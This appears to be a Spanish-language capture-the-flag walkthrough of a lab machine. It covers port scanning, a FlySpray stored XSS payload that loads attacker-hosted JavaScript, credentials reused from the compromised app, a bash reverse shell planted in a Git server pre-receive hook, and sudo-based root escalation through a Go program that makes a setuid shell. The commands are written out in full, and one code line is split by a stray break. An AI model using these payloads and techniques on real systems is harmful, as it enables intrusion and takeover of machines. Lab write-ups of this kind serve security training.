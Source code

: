 1. Escaneo de puertos abiertos 
```
nmap -p- --open --min-rate 5000 -n -Pn -vvv -sSC 192.168.18.163
```
Impresión 
```
Discovered open port 22/tcp on 192.168.18.163
Discovered open port 80/tcp on 192.168.18.163
Discovered open port 3306/tcp on 192.168.18.163
Discovered open port 3000/tcp on 192.168.18.163
```

2. Búsqueda de directorios potenciales
```
gobuster dir -t 20 -w /usr/share/wordlists/dirb/common.txt -u http://192.168.18.163/
```
Impresión
```
/flyspray             (Status: 301) [Size: 239] [--> http://192.168.18.163/flyspray/]
```
**Nota:** `flyspray` es un software para diligenciar tareas.

3. Buscar vulnerabilidades
```
searchsploit flyspray
```
Impresión 
```
FlySpray 1.0-rc4 - Cross-Site Scripting / Cross-Site Request Forgery            
```
Descargar recurso 
```
searchsploit -m php/webapps/41918.txt
```

4. Investigando la vulnerabilidad, en `https://seclists.org/fulldisclosure/2017/Apr/99` hay un apartado que es vulnerable a inyectar código HTML.
5. Copiar y editar (Tiene errores de espacio) el script de la vulnerabilidad `4191.txt` y colocarle extensión `.js` 
6. Abrir un puerto para compartir el recurso 
```
python3 -m http.server 80
```
7. Inyectar código script en el apartado `Real name` en `index.php?do=myprofile` (donde es posible actualizar los datos del usuario registrado), con la ruta para compartir el archivo malicioso.
```
"><script src=http://192.168.18.137/script.js></script>
```

8. Registrarse como el usuario `hacker:12345678`

9. Ingresar a la segunda tarea donde estarán las credenciales de `achilles:h2sBr9gryBunKdF9`

10.  Registrarse con las credenciales en el la ruta `http://192.168.18.163:3000/` que este es uno de los puertos abiertos.

11. Estando adentro, entrar a cualquiera de los repositorios ir a `Ajustes` luego ir a `Git Hooks`, luego editar cualquiera de los archivos puede ser `pre-receive`, con la siguiente ReverShell
```
bash -c 'bash -i >& /dev/tcp/192.168.18.137/443 0>&1'
```

12. Para activar la Shell se debe hacer un `commid` en el archivo `index.php` del repositorio escogido, puede ser añadir un comentario y listo.

13.  Estando dentro entrar al usuario `achilles` con las credenciales
14. Para la escalada de privilegios
```
sudo -l
```
Impresión
```
User achilles may run the following commands on symfonos6:
    (ALL) NOPASSWD: /usr/local/go/bin/go
```
**Nota:** El binario `go` se ejecuta como root y no necesita contraseña.

15. Entrar el directorio `tmp/` crear un archivo con `vim` con extención `.go`
```go
package main

import (
    "fmt"
    "log"
    "os/exec"
)

func main() {
    out, err := exec.Command("/bin/bash", "-c", "cp /bin/bash /tmp/pwnshell; chmod +xs /tmp/pwnshell").Outpu
t()
    if err != nil {
        log.Fatal(err)
    }
    fmt.Println(string(out))
}
```
**Nota:** Este script crea un archivo `pwnshell` que proporciona una shell al usarlo 

Ejecutarlo con 
```
sudo /usr/local/go/bin/go run cmd.go
```
Y luego ejecutar el archivo
```
/tmp/pwnshell -p
```
